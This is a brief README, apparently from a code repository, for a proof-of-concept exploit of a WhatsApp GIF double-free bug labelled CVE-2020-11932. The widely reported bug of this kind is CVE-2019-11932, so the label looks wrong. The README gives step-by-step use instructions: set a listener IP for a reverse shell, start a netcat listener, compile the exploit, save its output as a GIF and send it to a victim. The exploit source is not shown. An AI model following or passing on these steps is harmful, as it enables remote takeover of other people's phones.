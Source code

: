 # CVE-2020-11932
 Double-Free bug in WhatsApp exploit poc.
 
 #Note: Make sure to set the listner ip in exploit.c inorder to get shell
 
 - nc -lvp 1337 or whatever port.
 
 - and then compile.
 
 - make
 
 - or 
 
 - gcc -o exploit egif_lib.c exploit.c
 
 - then run ./exploit and save the content to <filename>.gif
 
 - and send to victim.
 
 ### Source
 https://awakened1712.github.io/hacking/hacking-whatsapp-gif-rce/.
 
 ### Poc_Video
 https://drive.google.com/file/d/1XP7K5zkKEhmbEONvRpjrkTQ5pwpBc6G_/view?usp=sharing
         
 

 
 
  
